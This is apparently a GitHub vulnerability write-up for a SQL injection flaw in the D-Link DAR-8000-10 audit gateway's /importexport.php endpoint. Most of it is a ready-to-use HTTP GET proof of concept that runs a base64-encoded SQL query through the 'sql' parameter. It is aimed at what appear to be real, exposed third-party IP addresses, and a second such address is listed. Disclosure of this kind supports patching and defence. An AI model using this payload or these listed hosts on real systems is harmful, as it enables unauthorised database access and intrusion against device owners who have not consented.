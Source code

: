 The full version of the D-LINK DAR-8000-10 series online behavior audit gateway has an SQL injection vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-8000-10

Vulnerability Path ：/importexport.php
https://59.60.19.174:8443/
<img width="720" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/3077bde6-418e-4bd9-9e0e-1251eec7200b">



Construct POC and successfully obtain database name and version
```
GET /importexport.php?sql=c2VsZWN0IDEsZGF0YWJhc2UoKSx2ZXJzaW9uKCk=&type=exportexcelbysql HTTP/1.1
Host: 60.22.74.195:8443
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```
<img width="726" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/6bd1a8b3-dc6d-46c5-baff-f5a7e9fc8b62">
